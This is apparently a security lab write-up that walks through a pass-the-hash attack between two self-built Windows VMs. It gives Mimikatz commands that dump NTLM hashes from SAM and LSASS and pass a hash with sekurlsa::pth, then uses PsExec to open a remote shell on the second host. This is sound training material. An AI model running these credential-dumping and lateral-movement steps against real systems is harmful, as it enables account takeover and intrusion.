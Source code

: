 # Use Mimikatz To Perform A Pass-The-Hash Attack
Pass-the-Hash is a potent technique attackers use to access remote servers or services by leveraging the NTLM or LanMan hash of a user's password. This vulnerability affects all Windows machines


## References
- [module - sekurlsa](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa) by Benjamin Delpy
- [module - lsadump](https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump) by Benjamin Delpy
- [Performing Pass-the-Hash with Mimikatz](https://blog.stealthbits.com/passing-the-hash-with-mimikatz) by Jeff Warren
- [Pass the Hash With Mimikatz: Complete Guide](https://www.stationx.net/pass-the-hash-with-mimikatz/) by Richard Deszo on StationX
- [Resolve "Access is Denied" using PSExec with a Local Admin Account](https://www.brandonmartinez.com/2013/04/24/resolve-access-is-denied-using-psexec-with-a-local-admin-account/) by Brandon Martinez
- [Fixed: Couldn't Install PsExec Service Access Is Denied on Windows](https://www.anyviewer.com/how-to/couldnt-install-psexec-service-access-is-denied-2578.html) by Ellie on AnyViewer
- [Unofficial Guide to Mimikatz & Command Reference](https://adsecurity.org/?page_id=1821) by Active Directory Security


## Tasks
- Prepare two Windows machines that can communicate with each other over SMB and RPC (Target 1 and Target 2)
- On each machine, create a local administrator user with the same username and password
- On Target 1, open Mimikatz and use the appropriate command to dump NTLM hashes from the LSASS and\or SAM database
- Record the NTLM hash for the local administrator user
- Use Mimikatz's "sekurlsa::pth" command to pass-the-hash and spawn a new cmd.exe session on Target 1 using the NTLM hash
- In the spawned cmd.exe session, execute ipconfig to display the IP address of Target 1
- From the spawned cmd.exe session, use PSEXEC with the NTLM hash to authenticate into Target 2
- Once authenticated into Target 2, execute ipconfig using PSEXEC to display its IP address
- Confirm successful authentication as the new user on Target 2 by executing whoami from the spawned remote shell. Ensure that whoami returns the username corresponding to the passed NTLM hash


## Benchmarks
- You can execute ipconfig from the spawned cmd.exe session on Target 1 to validate the IP address and ensure network connectivity
- You can execute ipconfig using PSEXEC from the spawned cmd.exe session on Target 2 to validate its IP address
- Upon executing whoami from the spawned remote shell on Target 2, it returns the username corresponding to the passed NTLM hash, confirming successful authentication
- You have not used a password to connect to the remote host at any point



## Practical Approach
1. In both Target 1 and 2, open a Command Prompt with administrator privileges, and create a new local user with the same username and password on each machine. To create a new local user with password, use `net user adminuser adminpassword /add`. To add the user to the administrator group, use `net localgroup administrators adminuser /add`. To verify the user was created, use `net localgroup administrators`.
2. Download Mimikatz on Target 1 from [this link](https://github.com/gentilkiwi/mimikatz/archive/master.zip) and download PsExec from [this link](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)
3. If PsExec cannot be launched and used between different version of Windows, just clone the Windows 7 VM used to standardise all the settings
4. To test PsExec, navigate to its folder and launch it in the command prompt with administrator privileges. Since the Windows 7 VM used in this task is 64-bit, use `psexec64 \\<IP_address_of_target_2> ipconfig` and see if it works. The screenshot below shows a working PsExec:
   ![image](https://github.com/user-attachments/assets/3b16df83-f00f-45ff-bda9-802d32967918)
5. Open PowerShell with administrator privileges and navigate to the folder where Mimikatz is stored, then run Mimikatz. Use each of the commands below in order
   ```
   privilege::debug
   token::elevate
   lsadump:sam
   sekurlsa::pth /user:<username> /domain:<domain_name> /ntlm:<NTLM_hash>
   ```
   - `privilege::debug` is used for getting debug rights (this or Local System rights is required for many Mimikatz commands). By default, the Administrators group has Debug rights. Debug still has to be “activated” by running “privilege::debug”
   - `token::elevate` is used for impersonating a token. Used to elevate permissions to SYSTEM (default) or find a domain admin token on the box using the Windows API
   - `lsadump::sam` is used for getting the SysKey to decrypt SAM entries (from registry or hive). The SAM option connects to the local Security Account Manager (SAM) database and dumps credentials for local accounts. It requires System or Debug rights. Note that the domain name nad the NTLM hash will appear here
   - `sekurlsa::pth /user:<username> /domain:<domain_name> /ntlm:<NTLM_hash>` is used to pass the hash. By default, this will spawn a command prompt
   ![image](https://github.com/user-attachments/assets/60fb6a56-30a6-4c92-a2c8-090f6db18742)
6. In the spawned command prompt, enter `ipconfig` to confirm it is still on Target 1 (local VM). Then navigate to the PsExec folder. Use `psexec64 \\<IP_address_of_target_2> cmd` to remotely connect to Target 2 and execute the command prompt
   ![image](https://github.com/user-attachments/assets/fcc14be2-b2d9-42fb-8433-f7d595bd0ffb)
7. In this new command prompt, type `ipconfig` and `hostname` to confirm the IP address and hostname belongs to Target 2
   ![image](https://github.com/user-attachments/assets/cb147d02-da4b-46e3-a93b-a0c0f9d29196)

